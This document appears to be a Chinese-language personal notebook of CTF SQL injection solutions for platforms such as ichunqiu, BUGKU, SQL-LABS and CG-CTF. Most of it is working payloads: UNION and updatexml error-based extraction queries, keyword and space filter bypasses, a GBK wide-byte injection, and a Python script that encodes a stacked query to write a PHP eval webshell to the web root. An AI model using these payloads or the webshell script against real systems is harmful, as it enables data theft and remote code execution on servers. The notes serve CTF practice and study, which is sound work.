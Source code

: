 # SQL做题记录

## ichunqiu

#### *WEB SQL 50PT*

过滤order select

<>绕过

```
表名：
id=1%20union%20sel<>ect%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=%27sqli%27%20%23
列名：
id=1%20union%20sel<>ect%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27info%27%20%23
payload：
id=1%20union%20sel<>ect%201,flAg_T5ZNdrm,3%20from%20info%23
```



## BUGKU

#### *成绩单查询*

```
0' union select 1,2,3,4#
0' union select 1,database(),3,4#		skctf_flag
0' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='skctf_flag'#				fl4g,sc
0' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='fl4g'#					  skctf_flag
payload:
0' union select 1,skctf_flag,3,4 from fl4g#
```



## 安恒杯

#### *write a shell*

```mysql
mysql> SET @A="SELECT database()";
Query OK, 0 rows affected (0.00 sec)

mysql> PREPARE st FROM  @A;
Query OK, 0 rows affected (0.00 sec)
Statement prepared

mysql> EXECUTE st;
+------------+
| database() |
+------------+
| WEB        |
+------------+
```

#####  *mysqli_multi_query* 特殊函数

可以多行注入，用到execute语句

payload：

```python
import requests 

Query0 = "SET ^a="
# Query1_raw = "SELECT GRANTEE,PRIVILEGE_TYPE,3,4,IS_GRANTABLE FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE='FILE'"
# Query1_raw = "show variables like '%secure_file_priv%'"
Query1_raw = "SELECT '<?php eval($_POST['h']);?>' into outfile '/var/www/html/favicon/shaobao.php'"
Query1_pass_waf = "concat({})"
Query2 = ";PREPARE st from ^a;EXECUTE st;"

tmp_str = ""
for i in Query1_raw:
    tmp_str+="CHAR({}),".format(ord(i))

print(Query0+Query1_pass_waf.format(tmp_str[0:-1])+Query2)
```

#### *ezsql*

load_file





### SQL-LABS

#### *Less-5*

### 报错注入

#### <font color=green>*updatexml*</font>



```
1' and updatexml(null,concat(0x3a,([YOUR QUERY])),null)--
```



爆当前数据库：

```
1' and updatexml(null,concat(0x3a,(database())),null)--
```

爆表：
```
1' and updatexml(null,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database())),null)%23
```

爆列：

```
1' and updatexml(null,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_name='emails')),null)%23
```

爆值

```
1' and updatexml(null,concat(0x3a,(select group_concat(id) from emails)),null)%23
```

### 安恒杯1月

```
polygon 报错
```

```
select * from flask where 1 and polygon(列名)
```

### NJUCTF-2018 滴！晨跑打卡
```
(preg_match("/[\s#*-]+/",$id))
```
过滤了空格，注释符`#-`
参考：https://lyiang.wordpress.com/2015/05/19/sql%E6%B3%A8%E5%85%A5%EF%BC%9A%E8%BF%87%E6%BB%A4%E6%B3%A8%E9%87%8A%E7%AC%A6/
过滤空格，参考https://lyiang.wordpress.com/2015/05/31/sql%E6%B3%A8%E5%85%A5%EF%BC%9A%E7%BB%95%E8%BF%87%E7%A9%BA%E6%A0%BC%E6%B3%A8%E5%85%A5/

注释符过滤可以构造恒真语句，再单引号闭合
```
SELECT * FROM users WHERE id='1' union select database(),1,1,1 and '1'='1'
```

空格使用`%a0`绕过

构造：
```
id=1'%a0union%a0select%a0database(),1,1,1%a0and%a0'1'='1'
```


## CG-CTF gbk-injection
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1

```
0%df' union select 1,2#
```

爆列名单引号被过滤，使用16进制
```
select hex('gbksqli');
```

